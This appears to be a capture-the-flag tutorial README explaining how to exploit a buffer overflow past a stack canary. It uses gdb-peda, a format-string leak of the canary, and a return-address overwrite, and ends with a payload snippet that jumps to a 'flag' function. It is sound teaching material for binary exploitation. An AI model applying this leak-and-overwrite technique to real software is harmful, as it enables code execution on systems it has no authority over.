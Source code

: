 # Easy Canary Buffer Overflow 
_Just some tips to remeber how to resolve easy buffer overflows with canary_

## Steps 📝
**1.  Check the typical "win" or "flag" function on the binary with gdb (it's recommended to have [PEDA](https://github.com/longld/peda) installed to see registers and the program instructions in a prettier way).**

To open the binary with gdb:
```
gdb binary
```
To see the differents functions on the binary: 
```
gdb-peda$ info functions
```
![Functions Addresses](images/functions.png)


**2. Get "flag" function memory address**: 
```
gdb-peda$ info functions flag 
```

![Function Address](images/function_address.png)


**3. Finding the canary to prepare the payload**:

First we should puts a breakpoint on the "vulnerable" method (for example gets or fgets)

```
gdb-peda$ disas main
```
![Gets address](images/gets_address.png)

```
gdb-peda$ b *0x000000000040093b ("gets" memory address)
```

Run the binary with gdb until reaching the breakpoint

```
gdb-peda$ run
```
Execute the next instruction of the program (it will call the "gets" where we have put the breakpoint and ask for an input, in this case we are going to write some 'A'):
```
gdb-peda$ ni
AAAAAAAAAAAAA
```
Then we have to look at the rsp register to see where our input has been stored ('A' in ASCII is 41): 
```
gdb-peda$ x/20gx $rsp
```
![RSP values](images/rsp_values.png)

If we look closer we can see the value "0x6f54534ae2410d00", this "strange" value which is different from the others on the stack is the canary (8 bytes, the length of the word, that changes in every program execution), so we have to do the buffer overflow writing the exact same value on this position. 

As the canary changes in each execution we have to print it with a format string vulnerability in order to add it to the payload (in the "canary" binary we can make a format string vulnerability in the line "printf(strcat(name, "!\n"));"). To print it we should use some %p to see in which position the canary is printed, in this case is the position 17 (it is recommended to see some format strings [videos](https://www.youtube.com/watch?v=0WvrSfcdq1I)):

![RSP values](images/format_string.png)

Now, we have the canary value which will be added to our payload. The next step is to overwrite the return address of the function in order to redirect the program to the "flag" function and get our flag. 


**4. Getting the return address of the function**

To get the return address of the function we have to put a breakpoint on the "ret" instruction:
```
gdb-peda$ breakpoint *0x400956
```
When the execution reachs the breakpoint we have to see the first position of the stack where is the returing address of the program is: 
```
gdb-peda$ x/gx $rsp
```
![RSP values](images/return_address.png)

Finally to expltoit the second "gets" with the bufferoverflow we check how many bytes we have to write until the canary and then until the return address where we will put the flag return address obtained on the first step of this guide:

![RSP values](images/to_overwrite.png)

So the payload will be: 56 chars until reach the canary, the canary obtained, 8 chars more and the flag function address (If you got a segfault in the movaps XMMWORD PTR [rsp+0x40],xmm0 instruction you have to align the stack jumping to other ret instruction and then set the target address as you can see in the solution.py script)

```
payload = 'A'*56
payload += p64(int(canary, 16))
payload += 'A'*8
payload += p64(MAIN_RET)
payload += p64(FLAG_ADDRESS)
```


